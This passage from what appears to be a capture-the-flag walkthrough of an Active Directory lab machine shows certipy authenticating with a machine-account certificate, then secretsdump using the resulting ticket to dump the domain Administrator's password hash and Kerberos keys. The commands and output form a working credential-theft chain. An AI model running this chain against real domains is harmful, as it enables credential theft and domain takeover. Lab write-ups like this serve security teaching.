 With the certificate I can authenticate as the computer account:

```

oxdf@hacky$ certipy auth -pfx dc-jpq225.pfx -dc-ip 10.129.234.48
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC-JPQ225.cicada.vl'
[*]     Security Extension SID: 'S-1-5-21-687703393-1447795882-66098247-1000'
[*] Using principal: 'dc-jpq225$@cicada.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc-jpq225.ccache'
[*] Wrote credential cache to 'dc-jpq225.ccache'
[*] Trying to retrieve NT hash for 'dc-jpq225$'
[*] Got hash for 'dc-jpq225$@cicada.vl': aad3b435b51404eeaad3b435b51404ee:a65952c664e9cf5de60195626edbeee3

```

This returns both a TGT and the NTLM for the account.

## Shell as Administrator

### Dump Hashes

The machine account cannot get a shell directly, but this TGT can be used to dump hashes from the DC:

```

oxdf@hacky$ KRB5CCNAME=dc-jpq225.ccache secretsdump.py -k -no-pass cicada.vl/dc-jpq225\$@dc-jpq225.cicada.vl -just-dc-user administrator
/home/oxdf/.local/share/uv/tools/impacket/lib/python3.12/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0da53871a9d56b6cd05deda3a5e87:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:f9181ec2240a0d172816f3b5a185b6e3e0ba773eae2c93a581d9415347153e1a
Administrator:aes128-cts-hmac-sha1-96:926e5da4d5cd0be6e1cea21769bb35a4
Administrator:des-cbc-md5:fd2a29621f3e7604
[*] Cleaning up... 

```
